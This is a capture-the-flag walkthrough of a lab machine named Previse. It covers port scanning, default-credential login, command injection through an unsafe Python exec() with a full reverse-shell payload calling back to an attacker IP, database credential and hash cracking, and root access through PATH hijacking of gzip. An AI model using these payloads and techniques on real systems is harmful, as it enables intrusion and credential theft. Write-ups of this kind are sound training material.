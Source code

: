 # Previse	

## nmap
```
Nmap 7.92 scan initiated Fri Nov 26 06:43:28 2021 as: nmap -A -T4 -p- -oN nmap/fullscan 10.10.11.104
Warning: 10.10.11.104 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.104
Host is up (0.16s latency).
Not shown: 65425 closed tcp ports (reset), 108 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## Enumeration
### gobuster
![](https://i.imgur.com/jm5Ya4R.png)

### Website enum
- Try default creds `admin:admin` which works
- Download site log
- Download sitebackup 


- When downloading log details, the python script uses the unsafe exec() when parsing user input
- We can abuse this by adding onto the script with our python reverse shell after te delimiter. Rememeber to URL encode the reverse shell payload. 
`comma;python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.108",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`


## Foothold
- Login to mysql with username found `root:mySQL_p@ssw0rd!:)` with `mysql -u root -p previse`
- Run `select * from accounts`
- Retrieve hash: `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`
- Crack hash: `john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash`
- Password for m4lwhere is `ilovecody112235!`
- Ssh to m4lwhere account and retrieve user.txt `9c669a509276942ef1ba01a1c7dbe021`


## Priv esc
![](https://i.imgur.com/0cHKq0b.png)
- Create gzip script in /tmp which is a bash reverse shell to attacker machine
- Start listener
- export gzip to path `export PATH=/tmp:$PATH`
- Run `sudo /opt/scripts/access_backup.sh`
- We are root
- cat /root/root.txt `392e809c5e419e39440f12c2bfe46bd0`